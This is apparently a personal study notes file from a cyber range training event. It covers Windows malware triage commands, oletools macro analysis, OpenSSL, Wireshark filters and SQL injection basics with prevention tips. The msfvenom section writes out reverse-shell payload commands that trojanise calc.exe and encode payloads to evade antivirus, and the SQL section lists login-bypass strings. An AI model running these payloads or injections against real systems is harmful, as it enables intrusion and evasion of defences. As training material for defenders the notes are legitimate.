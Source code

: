<!-- ASD Programme Title -->
<h1 align="center"><strong>ASD</strong></h1>

<p style="color: black;"><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>
<summary><strong>🌐 LFE 1 Bangalore - Malicious Detection</strong></summary>

### 🛠 Topics Covered
- Process and task investigation
- Scheduled task review and removal
- Registry autorun inspection
- Network port activity check
- Suspicious file hunting

### 🔎 Scenario: Command and Control (C2) Detection

- Gather logs using Event Viewer
- Identify malware via IOCs
- Remove malware and kill process
- Investigate network activity (C2)
- Block source and set firewall rules
- Remove persistence (startup/registry/scheduled tasks)

### 🧱 Step 1: Process Monitoring
```powershell
taskmgr

tasklist | findstr /i "powershell cmd python wscript cscript mshta wmic rundll32 regsvr32 schtasks bitsadmin"

taskkill /F /PID <PID>

eventvwr
```

### 🗓 Step 2: Scheduled Tasks
```powershell
taskschd

Get-ScheduledTask | ? {
  $_.TaskPath -notmatch "^\\Microsoft\\Windows" -and 
  ($_.Actions | % Execute | Out-String) -match "cmd|powershell|python|wscript|cscript|.bat|.vbs|.js|.py|mshta|rundll32|schtasks|bitsadmin"
}

Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

### 🧼 Step 3: Registry Startup
```powershell
regedit

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

### 🌐 Step 4: Network Communications
```powershell
netstat -bano
```

### 📁 Step 5: File Investigation
```powershell
Get-ChildItem -Path C:\Users -Include *.xlsx,*.docx,*.pdf -File -Recurse -ErrorAction SilentlyContinue
```

</details>

---

<details>
<summary><strong>🌋 LFE 2 Jakarta - Multi-Stage Malware & Analysis</strong></summary>

### 🛠 Topics Covered
- Office macro analysis with oletools
- Payload creation using msfvenom
- File encryption via OpenSSL
- Network inspection with Wireshark
- Basic SQL injection testing

### 🔎 Macro Analysis with `oletools`

`oletools` is a Python-based toolset for analysing Microsoft OLE2 files (e.g. Office documents). It helps detect malicious macros, extract metadata, and uncover indicators of compromise.

#### 🔧 Common Tools & Flags:
```bash
olevba -a suspicious.doc      # Full analysis
olevba -c suspicious.doc      # Extract macro code only
olevba --decode suspicious.doc # Decode obfuscated content
olevba --json suspicious.doc  # Output in JSON

mraptor suspicious.doc        # Detect risky macro patterns
mraptor --json suspicious.doc

olemeta suspicious.doc        # Extract file metadata
olemeta --json suspicious.doc

oleid suspicious.doc          # File structure and risk features
oleid --json suspicious.doc

oleobj -e -d output suspicious.doc # Extract embedded OLE objects
rtfobj -d output suspicious.rtf    # Extract objects from RTF
```

### 💣 Payload Crafting with `msfvenom`

`msfvenom` combines `msfpayload` and `msfencode`, allowing you to create encoded payloads in various formats for different platforms.

#### 🧪 Command Structure:
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <output> [-e <encoder>] [-i <iterations>] [-x <template.exe>]
```

#### 🧾 Flag Breakdown:
- `-p`: Payload type (e.g., `windows/meterpreter/reverse_tcp`)
- `LHOST`: Attacker IP to receive the connection
- `LPORT`: Listener port
- `-f`: Output format (e.g., `exe`, `elf`, `asp`, `raw`, `psh`)
- `-o`: Output filename
- `-e`: Encoder (e.g., `x86/shikata_ga_nai`)
- `-i`: Number of encoding iterations
- `-x`: Inject into a legitimate executable (trojanise)

#### 📦 Common Formats:
- `exe`: Windows executables
- `elf`: Linux binaries
- `psh`: PowerShell commands
- `raw`, `asp`, `war`, `vbscript`, `bash`, `c`, etc.

#### 🔁 Encoders:
Encoders help obfuscate payloads to evade signature-based AV:
```bash
msfvenom -l encoders
```
Example encoder: `x86/shikata_ga_nai`

#### 🧰 Examples:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 -f exe -o payload.exe
```
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 -f exe -x C:\Windows\System32\calc.exe -o mal.exe -e x86/shikata_ga_nai -i 3
```

### 🔐 File Encryption with OpenSSL
```powershell
openssl.exe enc -aes-256-cbc -base64 -in "C:\Users\cyberuser\Desktop\Files\Pass.txt" -out "C:\Users\cyberuser\Desktop\Pass.enc" -K 000001234567890ABCDEFABCDEF -iv 0
```

### 📊 Wireshark Filters
```wireshark
frame.number == 1437
frame.number >= 1434 and frame.number <= 1440
tcp.analysis.retransmission
frame.number == 1437 and tcp.analysis.retransmission
```

### 🔢 SQL Injection Basics
**Used on login forms where inputs are not sanitised**

#### Sample Username/Password Inputs:
```plaintext
Username: ' OR 1=1;--
Password: (blank or anything)

Username: admin' --
Password: anything

Username: ' OR 'a'='a';--
Password: anything

Username: " OR ""="
Password: anything
```

#### Underlying Query Logic:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```
Injecting:
```sql
SELECT * FROM users WHERE username = '' OR 1=1;--' AND password = '';
```

#### SQL Clause Order Reference:
1. `SELECT`
2. `FROM`
3. `WHERE`
4. `GROUP BY` / `HAVING`
5. `ORDER BY`

#### SQL Injection Prevention:
- Use prepared statements / parameterised queries
- Sanitize user inputs (strip/escape)
- Apply least privilege to DB accounts
- Log and alert on suspicious queries

</details>
